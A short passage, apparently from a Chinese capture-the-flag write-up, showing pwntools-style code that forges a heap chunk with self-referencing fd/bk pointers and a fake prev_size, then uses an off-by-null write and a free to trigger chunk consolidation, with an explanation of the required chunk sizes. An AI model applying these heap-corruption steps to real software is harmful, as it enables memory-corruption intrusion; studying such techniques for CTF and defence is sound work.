 
[![](assets/1701606615-2d94ab8b0b073aded2ce4743411ba479.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213014-1be109ac-83bb-1.png)

```bash
pl=p64(0)+p64(0xf1)+p64(heap_base+0x9a0)+p64(heap_base+0x9a0)
pl=pl.ljust(0xf0,'\x00')
pl+=p64(0xf0)
edit(7,pl)
```

[![](assets/1701606615-9f348879fb2fde576e243c841d36577b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213026-232a5c86-83bb-1.png)  
这里大小为 0x100=就是为了方便覆盖：这里是伪造的 chunk，fd 和 bk 都为伪造 chunk 的 chunk 头，然后伪造了 next\_chunk\_pre\_size，然后利用了 off by null 置空 inuse，这里因为把'\\n'变成了'\\x00'，所以这里最后只会保留倒数第三位，所以才要求 chunk 大小为 0x100 或者 0x200 或者 0x300

```bash
delete(8)
```
